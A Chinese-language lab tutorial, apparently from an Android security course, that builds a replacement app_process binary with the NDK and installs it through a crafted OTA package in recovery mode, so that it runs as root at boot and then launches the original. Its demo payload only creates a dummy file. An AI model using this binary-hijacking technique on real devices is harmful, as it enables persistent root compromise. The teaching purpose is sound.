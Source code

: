 # NDK编译原生代码注入攻击

我们的app_process程序是一个独立的原生程序，必须用NDK来编译

!!! NDK

    Native Development Kit(NDK)是一个用来编译在安卓系统运行的c/c++工具，这种类型的代码，叫原生代码，
    可以在原生程序中独立存在也能被安卓app中的java代码通过JNI调用（Jave Native Interface）
    
## 通过app_process注入代码

安卓启动过程：会运行一个叫app_process的程序，这个程序是由一个叫Zygote的守护进程启动的（也是所有app的守护进程），
我们的目标是修改app_process，直接创建一个/system/dummy2文件

app_process.c文件：
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
extern char** environ;

int main(int argc, char** argv) {
    //Write the dummy file
    FILE* f = fopen("/system/dummy2", "w");
    if (f == NULL) {
    printf("Permission Denied.\n");
    exit(EXIT_FAILURE);
    }
    fclose(f);
    //Launch the original binary
    char* cmd = "/system/bin/app_process_original";
    execve(cmd, argv, environ);
    //execve() returns only if it fails
    return EXIT_FAILURE;
}
```
我们首先把原始app_process重命名为app_process_original



为了使用NDK，必须创建两个文件：Application.mk和Android.mk  

Application.mk:
```mk
APP_ABI := x86
APP_PLATFORM := android-21
APP_STL := stlport_static
APP_BUILD_SCRIPT := Android.mk
```

Android.mk:  
```mk
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)
LOCAL_MODULE := app_process
LOCAL_SRC_FILES := app_process.c
include $(BUILD_EXECUTABLE)
```

编译脚本complie.sh：  
```bash
export NDK_PROJECT_PATH=.
ndk-build NDK_APPLICATION_MK=./Application.mk
```

![编译原生代码](../img/anrooting-complie-native.png)
可以看到编译完后的代码在/libs/x86目录下

## 制作OTA包

准备update-binary脚本  
```bash
mv /android/system/bin/app_process32 /android/system/bin/app_process_original
cp app_process /android/system/bin/app_process32
chmod a+x /android/system/bin/app_process32
```

给update-binary可执行权限，并按如下格式准备好ota包，并打包  
![准备OTA](../img/anrooting-ndkota.png)

## 安卓虚拟机进入recovery模式

必须登录普通账号不能是root账号，否则无法远程拷贝  
![进入recovery](../img/anrooting-login-recovery.png)

## ubuntu把包拷贝到安卓

![拷贝到安卓](../img/anrooting-scp-ndk.png)

## recovery模式下执行update-binary

![解包并执行](../img/anrooting-unzip-exe.png)

初步验证一下update-binary执行了  
![验证执行](../img/anrooting-confirm.png)

## 验证注入效果

重启进入安卓系统，验证app_process32被执行了  
![验证注入效果](../img/anrooting-confirm-inject.png)  
可以看到我们通过修改升级过程中的文件注入了一个有root权限的恶意文件  